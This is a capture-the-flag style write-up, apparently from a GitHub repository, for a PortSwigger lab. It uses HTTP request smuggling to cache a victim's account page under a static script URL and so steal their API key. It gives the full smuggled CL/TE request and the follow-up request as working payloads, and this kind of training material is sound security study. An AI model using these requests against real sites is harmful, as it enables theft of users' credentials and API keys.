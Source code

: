# Exploiting HTTP - request smuggling to perform web cache deception

## 📌 Lab Details
- **Title**: Exploiting HTTP request smuggling to perform web cache deception
- **Difficulty**: Expert
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/2beac929d831e232f42ba851c86ef44ab27d908abcc5d78ed79a5cbc6c710a13?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-perform-web-cache-deception

## 🔍 Summary
This lab shows how to exploit **HTTP request smuggling** to perform **web cache deception**.
By smuggling a request for `/my-account`, the victim’s **API key response** is cached under a static resource URL. The attacker can then retrieve this cached content and steal the victim’s API key.

## 🛠 Steps to Solve
1. Log in to your account and access the user account page.
2. Observe that the response doesn't have any anti-caching headers.
3. Smuggle the following request to fetch the **API key**:
   ```sh
   POST / HTTP/1.1
   Host: 0a0e00f20463d7c481e85c1d000f00d9.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 42
   Transfer-Encoding: chunked

   0  

   GET /my-account HTTP/1.1
   X-Ignore: X
   ```
4. Repeat this request a few times, then send the following request for `/resources/js/tracking.js`:
   ```sh
   GET /resources/js/tracking.js HTTP/1.1
   Host: 0a0e00f20463d7c481e85c1d000f00d9.web-security-academy.net
   Cookie: session=OYZU2oFSdrP10iu3onNY2orHgUtQcSI1
   Sec-Ch-Ua-Platform: "Windows"
   Accept-Language: en-US,en;q=0.9
   Sec-Ch-Ua: "Chromium";v="139", "Not;A=Brand";v="99"
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
   Sec-Ch-Ua-Mobile: ?0
   Accept: */*
   Sec-Fetch-Site: same-origin
   Sec-Fetch-Mode: no-cors
   Sec-Fetch-Dest: script
   Referer: https://0a0e00f20463d7c481e85c1d000f00d9.web-security-academy.net/
   Accept-Encoding: gzip, deflate, br
   Priority: u=1
   ```
5. Submit the victim's **API key** as the lab solution.
